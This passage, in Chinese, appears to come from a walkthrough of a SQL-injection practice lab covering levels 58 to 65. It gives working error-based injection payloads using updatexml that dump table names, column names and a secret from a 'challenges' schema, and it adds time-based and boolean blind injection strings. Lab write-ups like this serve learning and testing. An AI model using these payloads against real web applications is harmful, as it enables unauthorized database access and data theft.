五十八关和前面几关不一样因为该关卡的数据不是直接数据库里面取得而是在一个数组里面取出得。所以联合注入是不行得。但是有报错显示所以可以使用报错注入。


```plain
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
爆表名
```


```plain
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='8edjk8ipbk'),0x7e),1)--+
爆列名
```


```plain
?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_6W8M) from challenges.8edjk8ipbk),0x7e),1)--+
```

# 59.第五十九关
五十九关和五十八关一样使用报错注入id是整数型。


# 60.第六十关
六十关根据报错信息可知id参数是双引号加括号。


# 61.第六十一关
六十一关根据报错信息可知id参数是单引号加两个括号。


# 62.第六十二关
六十二关没有报错显示可以使用布尔盲注和时间注入。id参数是单引号加括号。具体代码往上翻

第五关布尔盲注第九关时间注入

```plain
?id=1%27) and if(length((select database()))=10,sleep(5),1)--+  时间注入如果出现延迟表示该数据库名长度是10 


?id=1%27)and length((select database()))=10--+  布尔盲注
```


# 63.第六十三关
六十三关没有报错显示可以使用布尔盲注和时间注入。id参数是单引号。第五关布尔盲注第九关时间注入

# 64.第六十四关
和前面两关一样id参数是两个括号的整数型。


# 65.第六十五关
和前面关卡差不多id参数是一个括号的整数型。


#### 如果靶场练习完了可以看这篇SQL注入总结会更好掌握。[SQL注入非常详细总结_糊涂是福yyyy的博客-CSDN博客_sql注入数据包](https://blog.csdn.net/dreamthe/article/details/124969922?spm=1001.2014.3001.5501)
